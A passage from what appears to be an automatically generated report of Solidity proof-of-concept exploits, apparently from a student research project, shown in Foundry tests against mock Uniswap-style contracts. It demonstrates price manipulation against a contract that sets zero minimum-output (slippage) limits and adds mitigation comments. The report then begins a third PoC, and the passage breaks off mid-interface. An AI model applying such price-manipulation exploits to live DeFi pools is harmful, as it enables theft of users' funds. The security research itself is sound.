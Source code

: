 ```solidity
        // Attacker performs a significant swap directly on the router to manipulate the pool price.
        // The attacker uses his own USDT tokens to heavily impact the USDT/EVE ratio.
        uint256 attackerSwapAmount = 50_000 * 1e18;
        vm.prank(attacker);
        uint256 attackerTokensReceived = router.swapExactTokensForTokens(
            attackerSwapAmount,
            0, // No slippage protection, allowing the manipulation
            address(usdt_token),
            address(eve_token),
            attacker
        );
        emit log_named_uint("Attacker tokens received from swap", attackerTokensReceived);
        
        // Check the manipulated price after the attacker's swap.
        uint256 manipulatedPrice = vulnerable.getPrice();
        emit log_named_uint("Manipulated Price (USDT per EVE) * 1e18", manipulatedPrice);
        
        // Vulnerability Explanation:
        // The vulnerable contract uses fixed 0 values for minimum output amounts when calling the router's swap and addLiquidity functions.
        // This means that even when an attacker manipulates the liquidity pool by executing a large swap (thus changing the price unfavorably),
        // the vulnerable contract does not enforce any slippage protection. The attacker can manipulate the pool price between when the price is obtained
        // and when the vulnerable contract executes its swap or liquidity addition, leading to potential losses for the user.
        
        // Mitigation Measure (Educational):
        // Developers should avoid using fixed 0 values for minAmount parameters. Instead, they should:
        // 1. Calculate expected output amounts based on current market conditions.
        // 2. Set a reasonable minimum amount (e.g., 95-98% of the expected output) to protect against slippage.
        // 3. Incorporate checks that verify current pool conditions before executing critical token swaps or liquidity operations.
    }
}
```

---

### PoC #3: no_slippage_limit_check

**File:** /Users/advait/Desktop/NTU/fyp-fr/exploit/src/test/PoC_unknown_1742753761.sol

**Execution:** ✅ SUCCESS

**Exploit Code:**

```solidity
pragma solidity ^0.8.13;

// Import Foundry BaseTest with balance logging
import "./basetest.sol";

/// @title IUniswapV2Router Interface
/// @notice Defines the minimal functions for the mock UniswapV2Router contract used in the demo.
interface IUniswapV2Router {
    function swapExactTokensForTokens(
        uint256 amountIn,
        uint256 amountOutMin, // Insecure: using zero as minimum acceptable
        address[] calldata path,
        address to,
        uint256 deadline
```